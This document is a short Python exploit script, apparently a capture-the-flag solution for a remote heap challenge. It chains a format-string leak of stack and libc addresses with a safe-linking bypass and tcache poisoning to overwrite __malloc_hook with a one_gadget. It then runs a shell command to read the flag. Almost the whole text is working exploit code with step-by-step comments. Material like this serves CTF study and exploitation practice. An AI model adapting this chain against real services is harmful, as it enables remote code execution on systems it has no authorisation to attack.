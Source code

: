 ```py
def free(slot):
    wait_menu()
    send(b"3")
    send(str(slot).encode())

def greet(name):
    wait_menu()
    send(b"4")
    send(name)
    greetings = r.recvline()
    return greetings.decode()

def leak_stack(offset1, offset2):
    fstr = f"%{offset1}$lx %{offset2}$lx"
    greetings = greet(fstr.encode())
    leak1, leak2 = greetings.split(" ")[-2:]

    return int(leak1, 16), int(leak2, 16)

def safe_linking(address, fd):
    return fd ^ address >> 12

r = remote(host, port)

# these offsets are found using gdb
slots_offset = 24
libc_addr_offset = slots_offset + 11 # __libc_start_main+242

one_gadget = 0xdf54f

alloc(1, 128, b"A" * 126)

first_slot, libc_leak = leak_stack(slots_offset, libc_addr_offset)
log.info(f"slots @ {hex(first_slot)}")

libc.address = libc_leak - (libc.symbols["__libc_start_main"] + 242)

log.info(f"libc @ {hex(libc.address)}")
log.info(f"__malloc_hook @ {hex(libc.symbols['__malloc_hook'])}")

alloc(2, 128, b"B" * 126)
free(2)
free(1)
edit(1, p64(safe_linking(first_slot, libc.symbols["__malloc_hook"]))) # put the address of __malloc_hook in the fd pointer of slot 1's freed chunk
alloc(3, 128, b"C" * 126) # return slot 1 chunk
alloc(4, 128, p64(libc.address + one_gadget)) # return a pointer to __malloc_hook instead of one to the slot 2 because we overwrote it, we write the one_gadget in here
alloc(5, 128, "osef :DD", only_trigger_malloc=True) # we trigger malloc to call the hook

r.sendline(b"cat flag.txt")
log.success(r.recvline().decode())
```
